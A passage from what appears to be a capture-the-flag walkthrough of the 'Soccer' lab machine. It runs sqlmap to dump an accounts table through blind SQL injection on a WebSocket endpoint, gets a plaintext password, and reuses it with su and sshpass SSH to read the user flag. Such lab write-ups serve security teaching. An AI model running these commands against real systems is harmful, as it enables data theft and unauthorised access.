 

There's only one.

#### Dump accounts

In general, with boolean and time-based SQL injections, I want to be
careful about dumping tons of data, as it will be very slow. That said,
since there's only one table, I want the entire thing, so I'll replace
`--tables` with `-T accounts` and add `--dump`. It dumps the table:



    oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ...[snip]...
    Database: soccer_db
    Table: accounts
    [1 entry]
    +------+-------------------+----------------------+----------+
    | id   | email             | password             | username |
    +------+-------------------+----------------------+----------+
    | 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
    +------+-------------------+----------------------+----------+
    ...[snip]...



The user is player and the password is in plaintext.

### su / SSH

That password works for the player user on the box with `su`:



    www-data@soccer:/home/player$ su player -
    Password: 
    player@soccer:~$



It works for SSH as well:



    oxdf@hacky$ sshpass -p PlayerOftheMatch2022 ssh player@soccer.htb
    Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
    ...[snip]...
    player@soccer:~$



Either way I'll grab `user.txt`:



    player@soccer:~$ cat user.txt
    df7f36e9************************


